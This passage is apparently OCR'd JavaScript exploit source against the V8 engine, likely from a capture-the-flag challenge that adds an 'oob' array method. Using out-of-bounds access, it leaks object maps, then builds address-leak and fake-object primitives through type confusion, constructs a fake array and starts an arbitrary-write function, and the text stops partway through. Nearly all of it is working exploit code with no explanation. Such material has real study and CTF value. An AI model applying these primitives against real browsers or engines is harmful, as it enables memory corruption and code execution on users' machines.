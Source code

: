 ```javascript

let helper = new Helpers();

console.log("STEP 0 - Leak maps with oob access.");

let obj = {};
let obj_list = [obj];
let float_list = [4.3];

// %DebugPrint(obj_list);
// %DebugPrint(float_list);

let obj_list_map = obj_list.oob();
let float_list_map = float_list.oob();

// %SystemBreak();

console.log("STEP 1 - Type confusion.");

function get_addr(victim) {
  obj_list[0] = victim;
  obj_list.oob(float_list_map);
  let res = helper.f64toi64(obj_list[0]) - 1n;
  obj_list.oob(obj_list_map);
  return res;
}

function get_obj(addr) {
  float_list[0] = helper.i64tof64(addr | 1n);
  float_list.oob(obj_list_map);
  let res = float_list[0];
  float_list.oob(float_list_map);
  return res;
}

let evil_float_array = [
  float_list_map,
  helper.i64tof64(0n),
  helper.i64tof64(0xdeadbeefn),
  helper.i64tof64((0x80n << 32n) | 0n),
  helper.i64tof64(0xdeadcafen),
  helper.i64tof64(0x31337n),
];

let fake_array_addr = get_addr(evil_float_array);
let fake_elements_addr = fake_array_addr + 0x30n;
let fake_obj = get_obj(fake_elements_addr);
console.log(fake_obj.length);

// %DebugPrint(evil_float_array);
// %DebugPrint(fake_obj);
// %SystemBreak();

console.log("STEP 2 - Arbitary read and write with fake_obj.");

function arb_write(addr, data) {
  evil_float_array[2] = helper.i64tof64((addr - 0x10n) | 1n);
  fake_obj[0] = helper.i64tof64(data);
  console.log(
    "[DEBUG] Writing 0x" + helper.hex(data) + " to 0x" + helper.hex(addr),
  );
}

```